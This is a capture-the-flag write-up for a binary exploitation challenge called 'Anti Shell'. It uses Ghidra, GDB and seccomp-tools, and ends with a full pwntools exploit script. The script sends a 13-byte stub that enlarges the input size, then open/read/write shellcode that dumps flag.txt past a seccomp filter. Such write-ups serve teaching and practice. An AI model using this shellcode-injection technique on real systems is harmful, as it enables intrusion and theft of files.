 # Anti Shell

## File Analysis
![image](https://github.com/user-attachments/assets/5c9a4839-5a6c-4d3f-9613-27395e73f796)

## Steps to Solve
## Step 1:

Use **Ghidra** to decompile the code, and I see that the first input actually does nothing. But the second input is actually vulnerable because of the <b>"(*(code *)local_28)();"</b> This will actually just execute anything inside the local_28 buffer.

<details>
  <summary>Decompile Code</summary>
  
```C
void main(void)

{
  undefined local_28 [28];
  undefined4 local_c;
  
  setup();
  printf("How many characters is your input?\n>> ");
  __isoc99_scanf(&DAT_0040202f,&local_c);
  getchar();
  printf("Okay, now give me your payload\n>> ");
  setup_jail();
  local_c = 0xd;
  vuln(local_28,0xd);
  (*(code *)local_28)();
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

</details>

The **vuln** function actually just a normal **fgets**.

```C
void vuln(char *param_1,int param_2)

{
  fgets(param_1,param_2,stdin);
  return;
}
```

## Step 2
But from what we see, the local_28 is only taking 13 bytes as input. It is very hard to write a shell code in 13 bytes. Therefore, I tried to use this 13 bytes to modify the fgets size input. So that I can have enough size to write my shellcode.
 
![image](https://github.com/user-attachments/assets/ee17c2a2-08a0-4dcb-beab-866fd30fb7dd)

So from **GDB**, we can see that [rbp-0x20] is actually the local_28, and the size specify for the input is [rbp-0x4] because 0xd is moving into it.

![image](https://github.com/user-attachments/assets/11655bdc-2b21-41d3-838a-544e37f2c9c7)

But actually from here, the most interesting part is the <b>"call RDX"</b>, because we know that we got control of the local_28, which is the [rbp-0x20]. and also from the main+124, the [rbp-0x20] is moving to the rdx. Therefore, we know that we can inject malicious instruction into the RDX so it will then execute it.

## Step 3
So from here, we have to know that only **0xd (13) bytes** of size will be input into the local_28 buffer. And we have to think about what can we do with 13 bytes instruction. Then after a moment of thinking, I figure out that I can actually change the size of the fgets and calling with it because of we have control of the RDX. 

The payload will be
```python
payload = asm("pop rax; sub eax, 25; push rax; mov edx, 500; ret")
```

> What this payload actually does is, it will first pop rax. (Since it call RDX, so the next instruction's return address will be push to stack, so after the call RDX function finish its instruction and reach the **"ret"** then it will go back to the normal next instruction). So after **pop RAX**, the RAX now contain the address of **0x40135b (main +135)**. Then we just sub this 0x40135b with 25 then the rax now will become **0x40135b - 25 = 0x401342 (main +110)**. Then we just **mov 500 into edx**, because from the GDB we can see that the **edx is moving into the esi** which is the size. So we need to mov 500 into edx, to make a bigger size. Then **ret** will go back to the **0x401342 (main +110)** because now the return address of the stack frame is already **0x401342**.



With this, we can know that this payload is exactly **13 bytes**. Which can fill all the instructions into the local_28 buffer. Then, when we send this payload to the binary. It will then return another fgets with bigger size (in this case will be 500 bytes) and store it in local_28. But with the same issues, the binary will still call the RDX. Which is the buffer, means we still can send malicious instruction to the vuln buffer but then this time we have bigger size to do whatever we want.

## Step 4

```python
shellcode = shellcraft.sh()
```

![image](https://github.com/user-attachments/assets/8af35eaa-7a03-4c54-8f6f-6cbd8a487ab7)

So now that, I know I can write anything into the buffer then it will execute it. So I just use shellcraft to spawn a shell, but then I realized that it is not working and have **exit code -31 (SIGSYS)**. 

_**What is SIGSYS?**_
> **SIGSYS (Signal 31)** is a **bad system call signal**. It is sent to a process when it makes an **illegal system call** or attempts to execute a system call that the kernel doesn't allow (due to **sandboxing, seccomp filters, or missing capabilities**).   _*GENERATED BY CHATGPT*_

## Step 5

![image](https://github.com/user-attachments/assets/0b2c96f6-0e09-4882-a59b-e237169df5b5)

After receiving **SIGSYS**, then I try to use **[seccomp-tools](https://github.com/david942j/seccomp-tools)** and realized that this binary only allow us to use the **read, write, open** in the [syscall table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md).

Then I just use chatgpt to generate a shellcraft using only **read, write, open** to read a flag.txt in the system.

```python
shellcode = shellcraft.open('flag.txt', 0)  # Open the file "flag.txt" (0 -> O_RDONLY)
shellcode += shellcraft.read('rax', 'rsp', 100)  # Read the file content into memory (rax -> fd, rsp -> buffer, 100 bytes)
shellcode += shellcraft.write(1, 'rsp', 100)  # Write the content to stdout (1 -> stdout, rsp -> buffer)
```

**_Explanation_**
> 1. shellcraft.open('flag.txt', 0): This opens the flag.txt file in **read-only mode** (O_RDONLY).
  > - The **file descriptor (fd)** of the opened file is stored in **rax**.
> 2. shellcraft.read('rax', 'rsp', 100): Reads 100 bytes from the **file descriptor(fd) in rax** into **memory starting at the address in rsp** (the stack pointer).
  > - The **file descriptor(fd) is rax**, which was **returned from the open call**.
  > - The **buffer is rsp** (stack pointer).
> 3. shellcraft.write(1, 'rsp', 100): Writes the 100 bytes from the stack (where the file content was read) to **stdout (file descriptor(fd) 1)**.

<details>
  <summary>Exploit Script</summary>
  
  ```python
  from pwn import *

exe = context.binary = ELF('./challenge')

p = exe.process()

p.sendlineafter(b">> ", "50")

payload = asm("pop rax; sub eax, 25; push rax; mov edx, 500; ret")
p.sendlineafter(b">> ", payload)

shellcode = shellcraft.open("flag.txt", 0)
shellcode += shellcraft.read("rax", "rsp", 100)
shellcode += shellcraft.write(1, "rsp", 100)

p.sendline(asm(shellcode))

p.interactive()

  ```
</details>


![image](https://github.com/user-attachments/assets/f2efa3a7-9ce8-4321-964d-f8a25eb9c25c)


Just like that and we can read the flag!!!

